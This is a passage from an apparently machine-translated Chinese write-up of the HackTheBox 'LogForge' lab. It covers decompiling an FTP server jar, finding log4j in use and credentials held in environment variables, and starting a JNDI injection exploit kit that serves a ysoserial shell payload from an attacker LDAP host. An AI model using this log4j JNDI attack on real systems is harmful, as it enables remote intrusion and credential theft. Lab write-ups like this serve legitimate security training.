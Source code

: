 现在，在您的终端中键入 jd-gui 来打开应用程序。然后从文件菜单中选择打开文件，并选择我们复制的 ftpServer-1.0-SNAPSHOT-all.jar:

![](img/3710bab95a36ef3c47e9e6ace4944a1d.png)

使用 JD-GUI 反编译应用程序

环顾四周，我们看到两件有趣的事情。首先，很明显 log4j 在这个 FTP 服务器中用于日志记录，因为你可以在类中看到许多配置文件和对它的引用。其次，在工人阶级中，我们看到:

![](img/d1f21e1b31673bcf88722ee26678b8d2.png)

检查 worker.class 揭示环境变量

这告诉我们 validUser 和 validPassword 保存在名为 ftp_user 和 ftp_password 的环境变量中。[这](https://www.tutorialspoint.com/java/lang/system_getenv_string.htm)是一篇解释环境变量在 Java 中如何工作的好文章。

# FTP JNDI 漏洞 1

我们可以像以前一样使用 JNDI 漏洞工具包来利用这一点来公开变量的值。检查它是否仍在运行，如果没有，请再次启动它:

```
┌──(root💀kali)-[~/htb/logforge]
└─# java -jar JNDI-Exploit-Kit/target/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -P ysoserial-modified/target/shell.ser -L 10.10.14.12:389
```
